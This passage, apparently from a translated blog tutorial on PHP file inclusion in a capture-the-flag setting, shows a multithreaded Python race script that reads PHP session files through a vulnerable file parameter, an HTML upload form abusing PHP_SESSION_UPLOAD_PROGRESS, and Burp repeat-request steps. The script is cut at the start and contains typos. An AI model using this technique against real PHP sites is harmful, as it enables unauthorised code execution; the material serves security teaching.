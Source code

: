 ```python
        )
def read(session):
    While event.isSet():
        reponse = session.get(url + '?file
=/phpstudy/phpstudy_x64/phpstudy_pro/Extensions/tmp/sess_{}'.format(sessID))
        if 'D1no' in response.text:
            print(reponse.text)
            # Set the event flag to False, and all threads calling the wait method will be blocked;
            event.clear()
        else:
            print('[*]continued')

if __name__ == '__main__':
    #Threading.Event() can create an event management flag, which defaults to False
    event = threading.Event()
    #Set the event flag to True, and all threads calling the wait method will be awakened;
    event.set()
    #Session mechanism (Session) is used in PHP to keep users accessing relevant data continuously when they are accessing web applications.
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(1,30):
            threading.Thread(target=read, args=(session,)).start()
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527175151787.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

This way you can get the flag. In addition, you can also use burp to conduct conditional competition, such as uploading a file using the following html upload code

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://localhost/H3rmesk1t/demo.php" method="POST" enctype="multipart/form-data">
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="H3rmesk1t" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```
![Insert the picture description here](https://img-blog.csdnimg.cn/20210527210427952.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Then grab a get package according to the code and request /tmp/sess_flag

![Insert the picture description here](https://img-blog.csdnimg.cn/20210527210518638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Blasting is carried out at the same time, and the payload is set to null payloads and it can be blasted all the time.

![Insert the picture description here](https://img-blog.csdnimg.cn/20210527210557830.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## Remote Included
